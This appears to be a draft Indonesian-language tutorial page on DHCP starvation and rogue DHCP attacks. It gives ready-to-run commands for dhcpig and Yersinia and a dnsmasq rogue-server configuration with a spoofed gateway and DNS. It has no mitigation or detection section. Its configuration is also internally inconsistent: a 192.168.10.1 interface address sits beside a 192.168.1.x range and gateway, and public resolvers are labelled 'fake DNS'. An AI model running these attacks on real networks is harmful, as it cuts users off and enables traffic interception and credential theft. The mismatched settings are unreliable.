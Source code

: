 ```yaml
---
sidebar_position: 2
draft: true
---
```


# DHCP Rogue

## Pengertian DHCP Rogue  
DHCP Rogue adalah server DHCP tidak sah yang berjalan di dalam jaringan dan memberikan alamat IP kepada perangkat yang terhubung. Server ini dapat dikonfigurasi oleh penyerang atau pengguna yang tidak menyadari dampaknya, menyebabkan gangguan jaringan dan serangan Man in the Middle (MITM).

![alt text](<images/dhcp rogue/image.png>)

**Cara Kerja DHCP Rogue**  
1. Penyerang mengaktifkan server DHCP tidak sah.
2. Server rogue merespons permintaan DHCP lebih cepat dari server resmi.
3. Perangkat klien menerima alamat IP dari server rogue dengan konfigurasi jaringan yang salah.
4. Penyerang dapat mengarahkan lalu lintas jaringan melalui perangkatnya untuk melakukan sniffing atau manipulasi data.

**Dampak DHCP Rogue**  
- Perangkat klien bisa mendapatkan alamat IP yang salah dan kehilangan akses ke jaringan.
- Penyerang dapat melakukan serangan MITM dengan mengarahkan lalu lintas melalui servernya.
- Risiko pencurian kredensial meningkat melalui serangan berbasis DNS spoofing.

**Kombinasi dengan DHCP Starvation**  
DHCP Rogue sering dikombinasikan dengan serangan DHCP Starvation. Penyerang pertama-tama menghabiskan seluruh alamat IP yang tersedia di server DHCP sah menggunakan DHCP Starvation, lalu mengaktifkan server DHCP Rogue untuk memberikan alamat IP kepada perangkat korban dengan konfigurasi berbahaya.

## 1. DHCP Starvation

### Pengertian dhcpig
`dhcpig` adalah tool open-source yang digunakan untuk melakukan serangan **DHCP Starvation**. Serangan ini bertujuan untuk menghabiskan semua alamat IP yang tersedia di server DHCP sehingga klien sah tidak dapat memperoleh alamat IP.

### Cara Kerja DHCP Starvation
- `dhcpig` mengirimkan banyak permintaan **DHCP Discover** dengan berbagai alamat MAC palsu.
- Server DHCP akan memberikan respon **DHCP Offer** untuk setiap permintaan yang diterima.
- Karena setiap permintaan berasal dari alamat MAC yang berbeda, server menganggapnya sebagai klien unik dan mengalokasikan IP baru untuk setiap permintaan.
- Akhirnya, pool alamat IP akan habis, menyebabkan klien sah gagal mendapatkan alamat IP.

### Contoh Perintah DHCP Starvation dengan dhcpig
Untuk menjalankan serangan dengan `dhcpig`, gunakan perintah berikut di sistem berbasis Linux:
```bash
sudo dhcpig -i eth0
```
- `-i eth0` menentukan antarmuka jaringan yang digunakan untuk serangan.

### Alternatif Lain untuk DHCP Starvation
Selain `dhcpig`, ada juga tool lain yang bisa digunakan untuk DHCP Starvation seperti:
- **Yersinia**: Tool untuk menyerang berbagai protokol jaringan, termasuk DHCP.
  ```bash
  sudo yersinia dhcp -attack 1
  ```
  (Attack 1 adalah mode starvation pada Yersinia)

## 2. DHCP Rogue
### a. dnsmasq
Untuk membuat DHCP Rogue menggunakan `dnsmasq`, ikuti langkah berikut:
```bash
sudo apt update && sudo apt install dnsmasq -y
```

#### Konfigurasi IP Statis
Sebelum mengaktifkan DHCP Rogue, pastikan antarmuka jaringan memiliki alamat IP statis:
```bash
sudo ip addr add 192.168.10.1/24 dev eth0
```
Atau gunakan `nmtui` (Network Manager Text User Interface) untuk mengatur IP:
```bash
nmtui
```
Ubah IP menjadi **192.168.10.1** pada antarmuka jaringan yang sesuai.

#### Konfigurasi dnsmasq
Edit file konfigurasi `dnsmasq`:
```bash
sudo nano /etc/dnsmasq.conf
```
Tambahkan atau ubah konfigurasi berikut:
```ini
interface=eth0  # Ganti dengan interface yang digunakan

dhcp-range=192.168.1.10,192.168.1.200,12h  # Rentang alamat IP untuk klien
dhcp-option=3,192.168.1.1  # Gateway palsu (bisa disesuaikan)
dhcp-option=6,8.8.8.8,8.8.4.4  # DNS palsu
```

Simpan file dan keluar, lalu restart layanan `dnsmasq`:
```bash
sudo systemctl restart dnsmasq
sudo systemctl enable dnsmasq
```

### b. Verifikasi DHCP Rogue
Periksa log untuk memastikan `dnsmasq` berjalan dengan benar:
```bash
sudo journalctl -u dnsmasq --no-pager | tail -n 20
```

Gunakan `tcpdump` untuk melihat trafik DHCP:
```bash
sudo tcpdump -i eth0 port 67 or port 68 -n
```
Jika berhasil, setelah pool DHCP asli habis, klien akan mulai mendapatkan alamat IP dari DHCP Rogue yang telah dibuat.
![alt text](<images/dhcp rogue/image-1.png>)
![alt text](<images/dhcp rogue/image-2.png>)

### Alternatif Lain untuk DHCP Server
Selain `dnsmasq`, ada beberapa opsi lain untuk membuat DHCP Server, seperti:
- **ISC DHCP Server**: DHCP server yang lebih kompleks dan memiliki banyak fitur tambahan.
  ```bash
  sudo apt install isc-dhcp-server -y
  ```

## 3. DHCP Rogue dengan Yersinia
Selain menggunakan `dnsmasq`, kita juga bisa menggunakan `Yersinia` untuk menjalankan DHCP Rogue.

### a. Instalasi Yersinia
Jika belum terinstal, pasang `Yersinia` terlebih dahulu:
```bash
sudo apt install yersinia -y
```

### b. Menjalankan Yersinia mode dhcp rogue
Untuk menjalankan DHCP Rogue menggunakan `Yersinia`, gunakan perintah berikut:
```bash
sudo yersinia dhcp -attack 2 -I eth0
```
- `-attack 2` adalah mode rogue DHCP server.
- `-I eth0` menentukan antarmuka jaringan yang digunakan.

Dengan menjalankan perintah ini, `Yersinia` akan mulai menawarkan alamat IP ke klien yang mencari server DHCP, membuatnya mendapatkan konfigurasi jaringan dari DHCP Rogue.

## Kesimpulan
- `dhcpig` dapat digunakan untuk serangan **DHCP Starvation** dengan cara menghabiskan IP pool pada server DHCP.
- `dnsmasq` dapat digunakan untuk membuat **DHCP Rogue** agar klien yang tidak mendapatkan IP dari DHCP asli tetap bisa mendapatkan IP.
- `Yersinia` juga bisa digunakan sebagai alternatif untuk menjalankan **DHCP Rogue**.
- Monitoring menggunakan `tcpdump` membantu dalam melihat trafik DHCP untuk memastikan keberhasilan serangan atau konfigurasi DHCP Rogue.

Dengan tutorial ini, diharapkan pengguna dapat memahami bagaimana DHCP Starvation dan DHCP Rogue bekerja serta bagaimana mengimplementasikannya menggunakan `dhcpig`, `dnsmasq`, dan `Yersinia`.